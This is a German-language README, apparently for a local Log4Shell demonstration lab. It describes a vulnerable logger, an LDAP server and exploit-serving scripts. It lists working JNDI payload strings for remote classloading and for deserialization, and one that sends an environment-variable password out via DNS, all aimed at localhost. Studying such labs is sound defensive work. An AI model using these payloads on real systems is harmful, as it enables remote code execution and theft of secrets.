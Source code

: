 # Übersicht

Die Komponenten sind:

- log4shell: Loggt eine Logzeile mit log4j.
- ldap: Ein simpler LDAP-Server.
- remote: Der Exploit, der für remote Classloading verwendet wird.
- serialization: Der Exploit, der ein serialisiertes Objekt für den Exploit erstellt.
  - Um dies Auszunutzen muss z.B: `commons-collections:commons-collections:3.1` im Classpath sein.
- serve_exploit.sh: Kompiliert das remote-Projekt und startet einen Server, der das Classfile ausliefert.
- listen_to_udp.sh: Öffnet ein UDP-Port und gibt eine Antwort.
- jndi: Ein Beispiel für den Exploit, der nur JNDI verwendet.

In `build.gradle` von `log4shell` wird `Dcom.sun.jndi.ldap.object.trustURLCodebase=true` gesetzt, damit
der Remote-Classloading Teil funktioniert. Es ist natürlich interessant die Beispiele einfach mal ohne diesen
Parameter durchzuspielen.

#  Vorbereitung

- `gradle ldap:run`, um den LDAP-Server zu starten.
- `./serve_exploit.sh`, um den Exploit zu kompilieren und den Server zu starten, der den Code ausliefert.
- `./listen_to_udp.py`, um Daten auf UDP Port 1053 anzunehmen.

# Testen des Exploits

Rufe

```
gradle log4shell:run --args="<logstring>" 
```

mit den folgenden Werten für `logstring` auf:

- `\${jndi:ldap://127.0.0.1:1389/dc=javaNamingReference}` für den Remote Code Exploit.
- `\${jndi:ldap://127.0.0.1:1389/dc=javaSerializedData}` für den Exploit, der Klassen im Classpath verwendet.
- `\${jndi:dns://127.0.0.1:1053/\${env:MY_PASSWORD}}` um Daten via DNS zu übertragen. Dabei sollte `MY_PASSWORD` vorher
  entsprechend gesetzt werden.
